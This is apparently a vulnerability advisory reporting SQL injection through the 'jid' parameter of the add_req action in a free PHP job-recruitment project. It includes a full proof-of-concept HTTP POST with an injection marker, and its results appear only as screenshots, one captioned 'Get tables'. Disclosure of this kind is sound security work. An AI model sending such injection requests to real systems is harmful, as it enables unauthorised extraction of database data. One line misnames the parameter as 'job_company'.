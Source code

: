 # job-recruitment-in-php has sql injection vulnerability in add_req action and jid parameter

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
jid parameter

## describe

In jid parameter .An unrestricted SQL injection attack exists in a job-recruitmentsystem. The parameters that can be controlled are as follows:  jid parameter . This function executes the job_company parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the parameter value of $POST['jid'] is obtained in add_req action , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![image-20241226010008040](https://github.com/user-attachments/assets/d1c08cb5-5076-4423-b28a-4a74d8142c9d)

## POC

```
POST /_parse/_all_edits.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/_parse/_all_edits.php
Cookie: PHPSESSID=etso55q58ionvmrvpetmaf8urt
Upgrade-Insecure-Requests: 1
Priority: u=0, i

jid=1*&degree=2&skillset1=1&action=add_req
```

**Result**

![image-20241226010957780](https://github.com/user-attachments/assets/839a6e83-6917-40ee-b0f6-5f6c08dbdf10)

Get tables

![image-20241213201627253](https://github.com/user-attachments/assets/4314c675-b9dd-4809-9aca-eb525b3e3326)

**Discover**

西安电子科技大学： 李腾，谢亚轩，刘芮彤